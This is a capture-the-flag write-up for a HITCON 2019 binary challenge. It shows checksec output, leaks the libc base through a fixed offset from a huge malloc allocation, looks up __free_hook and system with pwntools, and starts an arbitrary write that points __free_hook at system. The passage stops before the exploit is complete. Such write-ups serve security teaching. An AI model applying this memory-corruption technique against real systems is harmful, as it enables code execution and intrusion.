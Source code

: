 # CTFhitcon2019
The disassembly of the file is as follows:

![Disassembly of the file](ida.png)

When running checksec we get these results:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0      
```

The program starts by asking for an input size to send to malloc().
After sending the input size it prints out a "Magic" pointer value which points towards where the heap was allocated.

For example, mallocing 100 gives us a pointer to 0x55a29a156260
```
Size:100
Magic:0x55590e00f260
```
/proc/PID/maps
```
55590e00f000-55590e030000 rw-p 00000000 00:00 0                          [heap]
7f3893334000-7f389351b000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
In order for malloc to allocate a huge page it needs to be given a size of 0x1000000 (Decimal 16777216)
Doing this changes where the heap chunk is allocated and is placed near libc. When running the program twice allocating a huge page, we observe something peculiar with the proc/PID/maps output
Run 1:
```
Size:16777216
Magic:0x7f0aadd25010
```
/proc/PID/maps
```
5567221bc000-5567221dd000 rw-p 00000000 00:00 0                          [heap]
7f0aadd25000-7f0aaed26000 rw-p 00000000 00:00 0 
7f0aaed26000-7f0aaef0d000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is at 0x7f0aaed26000. Magic is at 0x7f0aadd25010. Difference is 0x1000FF0
Run 2:
```
Size:16777216
Magic:0x7f2aeafd4010
```
/proc/PID/maps
```
55f249f64000-55f249f85000 rw-p 00000000 00:00 0                          [heap]
7f2aeafd4000-7f2aebfd5000 rw-p 00000000 00:00 0 
7f2aebfd5000-7f2aec1bc000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is 0x7f2aebfd5000. Magic is at 0x7f2aeafd4010. Difference is 0x1000FF0

This means that every time we allocated a huge page with malloc magic will be a fixed distance from libc of 0x1000FF0.
Now that we know where libc starts we can leverage that to get the addresses of __free_hook__ and __system__ by using pwntools like so:
```
libc = ELF('libc.so.6')
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
```
After getting the Magic value we are able to assign all of the variables we will be using
```
libc_offset = 0x1000FF0
free_hook = 0x3ed8e8
system = 0x4f440
libcBase = magic+libc_offset
```

After setting up our environment by alloating a hugepage we are presented with the prompt
```
Offset & Value:
```
From the disassembly we can see that it is expecting input in the format "%lx %lx" which means it is looking for long hex input. This means we don't need to format our input in a special way and can send addresses "as is".
What the program does with Offset and Value is it passes value to the offset of our malloced value. For example:
```
mValue[offset] = value
```
The program asks for Offset & Value twice.
The first Offset and Value we send is (libc_offset+free_hook)/8 for the offset and (libcBase+system) for the value

